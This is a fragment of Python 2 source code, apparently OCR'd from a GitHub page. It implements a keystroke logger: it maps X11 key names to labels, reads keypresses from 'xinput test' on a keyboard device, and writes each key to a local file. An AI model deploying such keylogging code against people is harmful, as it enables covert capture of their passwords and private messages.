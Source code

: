             'F3': ' (F3) ',
            'F4': ' (F4) ',
            'F5': ' (F5) ',
            'F6': ' (F6) ',
            'F7': ' (F7) ',
            'F8': ' (F8) ',
            'F9': ' (F9) ',
            'F10': ' (F10) ',
            'F11': ' (F11) ',
            'F12': ' (F12) ',
            'Num_Lock': ' (NumLock) ',
            'slash': '/',
            'bracketright': ']',
            'bracketleft': '[',
            'comma': ',',
            'semicolon': ';',
            'Scroll_Lock': ' (ScrollLock) ',
            'Home': ' (Home) ',
            'End': ' (End) ',
            'Prior': ' (PgUp) ',
            'Next': ' (PgDn) ',
            'Pause': ' (Pause) ',
            'Insert': ' (Insert) ',
            'Delete': ' (Del) ',
            'Print': ' (PrtScr) ',
            'Left': ' (Left) ',
            'Up': ' (Up) ',
            'Right': ' (Right) ',
            'Down': ' (Down) ',
        }

    def _log(self):
        logger = bash.xinput("test", self._keyboard, _iter=True)
        keymap = self._get_keymap()
        try:
            for line in logger:
                match = KEYPRESS_REGEX.match(line)
                if match:
                    keycode = match.groups()[0]
                    key = keymap[keycode]
                    self._writen_file(key)
        except Exception:
            print "Salved into %s" % self._filename

    def _writen_file(self, key):
        self._file.write(key)
        self._file.flush()
        os.fsync(self._file)

    def _sanitize(self, key_char):
        if key_char in self._special_chars:
            return self._special_chars[key_char]
        else:
            return key_char

